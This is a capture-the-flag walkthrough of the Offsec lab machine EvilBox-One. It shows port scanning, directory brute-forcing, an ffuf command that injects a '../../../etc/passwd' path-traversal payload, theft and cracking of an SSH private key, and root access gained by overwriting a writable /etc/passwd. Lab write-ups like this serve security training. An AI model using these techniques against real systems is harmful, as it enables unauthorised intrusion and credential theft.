 ```yaml
---
title: "EvilBox-One Walkthrough"
date: 2023-9-19 
img_path: ../../../assets/image/posts
image: ev1313.png
categories: [Proving grounds, intermediate,root,]
tags: [ctf, nmap, passwd, enumeration, gobuster, LFI, ssh, Linux, PenTesting]     # TAG names should always be lowercase
---
```


> Welcome back to another writeup of the Proving Grounds Play lab machines and CTF challenge. Today, I am going to present EvilBox-One Walkthrough.**[EvilBox-One](https://portal.offsec.com/labs/play)**  is a Linux Machine from Offsec Proving Grounds rated as intermediate by the Community.. We shall start with `nmap` scan to see the open ports on the machine. We will later  use `gobuster` for directory brute force and later we shall login with `SSH`  which will give us the initial access to the system. Finally we shall do privilege escalation by exploiting incorrect permissions in `/etc/passswd`file to get root privileges.
{: .prompt-tip }

`Ready, set, boot and root!` 

## Scanning and Enumeration

I started with enumerating the host by running a port scan with Nmap, checking default scripts and testing for vulnerabilities.  We have used -sC for default 
scripts, -sV to enumerate all versions, -oA to output all format in a file called initial and finally it’s IP address. Here is the results:


```shell                              
┌──(root㉿kali)-[/home/th3g3ntl3m4n/PGPLAY/Evilbox1]
└─ nmap -sC -sV -oA initial  192.168.201.212
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-19 11:25 EAT
Nmap scan report for 192.168.201.212
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:95:50:0b:e4:73:a1:85:11:ca:10:ec:1c:cb:d4:26 (RSA)
|   256 27:db:6a:c7:3a:9c:5a:0e:47:ba:8d:81:eb:d6:d6:3c (ECDSA)
|_  256 e3:07:56:a9:25:63:d4:ce:39:01:c1:9a:d9:fe:de:64 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.21 seconds

```
                                                           
  We see `ssh` port 22 open and `http` port 80 open which is running an Apache 2.4.38 web server.   

  Looking at port 80 on the web browser, we see a default Apache2 debian page. 


  ![image](../../assets/image/posts/evilbox1/ev1.png)

  

  Looking at the robots.txt, I found a message saying . "Hello H4x0r" which might be a potential username.
  ![image](../../assets/image/posts/evilbox1/ev2.png)


  Since `http` port 80 is open, we need to do some directory bruteforcing and look at what directories are accessible. We're going to use `gobuster` which is a Directory/File, DNS and VHost busting tool written in Go. This took a little bit to run, but it did find something interesting. It found a file/folder called /secret.

  ```shell                                
┌──(root㉿kali)-[/home/th3g3ntl3m4n/PGPLAY/Evilbox1]
└─ gobuster dir -r -u http://192.168.201.212/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.201.212/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 280]
/.html                (Status: 403) [Size: 280]
/index.html           (Status: 200) [Size: 10701]
/robots.txt           (Status: 200) [Size: 12]
/secret               (Status: 200) [Size: 4]
Progress: 32804 / 882244 (3.72%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 32814 / 882244 (3.72%)
===============================================================
Finished
===============================================================
  ```
 However that was nothing more than a blank page. So, I further bruteforced to find other paths inside of it.
 ![image](../../assets/image/posts/evilbox1/ev3.png)

Gobuster really took some time but i finally found a file called /secret/evil.php. 

```shell                                    
┌──(root㉿kali)-[/home/th3g3ntl3m4n/PGPLAY/Evilbox1]
└─ gobuster dir -r -u http://192.168.201.212/secret/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.201.212/secret/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,php
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 280]
/.php                 (Status: 403) [Size: 280]
/index.html           (Status: 200) [Size: 4]
/evil.php             (Status: 200) [Size: 0]
Progress: 53868 / 882244 (6.11%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 53878 / 882244 (6.11%)
===============================================================
Finished
===============================================================
                                                                   
```
However, I had no idea what to do with this file, since it really displayed nothing, but an empty page when accessed.
![image](../../assets/image/posts/evilbox1/ev4.png)
The script is empty and since I have nowhere to go from there, I fuzzed the GET parameter on it.

```shell                                                                                                                                     
┌──(root㉿kali)-[/home/th3g3ntl3m4n/PGPLAY/Evilbox1]
└─ ffuf -c -r -u http://192.168.201.212/secret/evil.php?FUZZ=../../../etc/passwd  -w /opt/SecLists/Discovery/Web-Content/common.txt -fs 0 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.201.212/secret/evil.php?FUZZ=../../../etc/passwd
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

[Status: 200, Size: 1398, Words: 13, Lines: 27, Duration: 3522ms]
    * FUZZ: command

:: Progress: [4715/4715] :: Job [1/1] :: 196 req/sec :: Duration: [0:00:59] :: Errors: 0 ::


```
Up to now, we found that `command` allows the inclusion of local files of the target.
![image](../../assets/image/posts/evilbox1/ev5.png)

We have to search sensitive files that would give me access to the machine. Since I have a user, I tried checking files from its home directory. Luckily, I found a public key in the /home/mowree/.ssh/authorized_keys file. Then, I checked if I can access the private key and I could.

![image](../../assets/image/posts/evilbox1/ev7.png)
Ok great, so, I am going to copy this and save it as id_rsa on my local machine and I am going to use the famous ssh2john to extract the hash and see if I can crack it.
The private key is encrypted by a passphrase. Now, We have to crack the passphrase. So, I copied the content to a file “id_rsa” on my local machine,
 ![image](../../assets/image/posts/evilbox1/ev8.png)

After coping the id_rsa to my machine i changed its permissions

![image](../../assets/image/posts/evilbox1/ev6.png)

We have to crack the hash of the passphrase. Therefore, we need a tool called ssh2john to generate the hash.
![image](../../assets/image/posts/evilbox1/ev9.png)


Now that I had the hash, I used John the Ripper to crack the hash, that gave us the passphrase to decrypt the id_rsa file.
![image](../../assets/image/posts/evilbox1/ev10.png)





## Initial Access

After successfully cracking the passphrase. Now, we can easily log in.
 ![image](../../assets/image/posts/evilbox1/ev11.png)

We have managed to get the user flag now we need to find a way to  escalate our privileges to root.
 ![image](../../assets/image/posts/evilbox1/ev12.png)


## Privilege Escalation

`Let's get root`
After some research i found that we can write as a low-privileged user to /etc/passwd?
 ![image](../../assets/image/posts/evilbox1/ev13.png)

I used openssl to generate the hash of the word “root”.
 ![image](../../assets/image/posts/evilbox1/ev14.png)


 Then, I copied the hash to the /etc/passwd file of the target. I updated the password of the user root as follows.

 ![image](../../assets/image/posts/evilbox1/ev15.png)


 We will use the password “root”  we created with openssl to get access to the root user.
  ![image](../../assets/image/posts/evilbox1/ev16.png)

We now have to find the final flag to finish the challenge. We need to change the current directory to root and find the flag file, which can be seen in the screenshot given below.
  ![image](../../assets/image/posts/evilbox1/ev17.png)

  ## Conclusion
  
And with that, we have successfully completed the CTF challenge for EvilBox-One machine. I hope you’ve enjoyed this machine and this EvilBox-One walkthrough.

Did you find another way to attack this machine? Do you think I did something wrong or that you would have done it differently?  Let’s help everyone learn.

If you are enjoying these posts, consider buying me a cup of coffee. I spend a lot of time creating these posts that I know will help others, so any support you can provide will help me stay on track.

